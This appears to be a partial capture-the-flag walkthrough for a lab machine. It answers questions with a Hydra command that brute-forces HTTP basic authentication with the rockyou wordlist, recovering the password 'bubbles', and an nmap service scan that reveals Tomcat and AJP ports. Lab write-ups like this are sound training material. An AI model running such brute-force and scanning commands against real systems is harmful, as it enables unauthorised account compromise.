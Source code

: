  Question 1:
 '''
 Guidelines
 '''
 ###2
 '''
 bob
 '''
 ###3
 Status code 401
 '''
 protected
 '''
 ###4 What is bob's password to the protected part of the website?
kali@franka:~$ hydra -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.31.199 http-get /protected/ 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-13 15:49:26
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.31.199:80/protected/
[80][http-get] host: 10.10.31.199   login: bob   password: bubbles
[STATUS] attack finished for 10.10.31.199 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-13 15:49:40
'''
bubbles
'''

#5 What other port that serves a webs service is open on the machine?
ali@franka:~$ nmap -sV -sC 10.10.31.199
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-13 15:51 CEST
Nmap scan report for 10.10.31.199 (10.10.31.199)
Host is up (0.023s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 13:5f:c0:81:1b:b5:49:4f:62:93:db:db:12:c4:b5:d9 (RSA)
|   256 1f:25:38:0c:72:4e:96:51:d0:a9:f1:11:39:82:69:71 (ECDSA)
|_  256 94:92:f9:cb:ad:6d:52:dd:2a:0e:74:2c:23:9c:96:2e (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
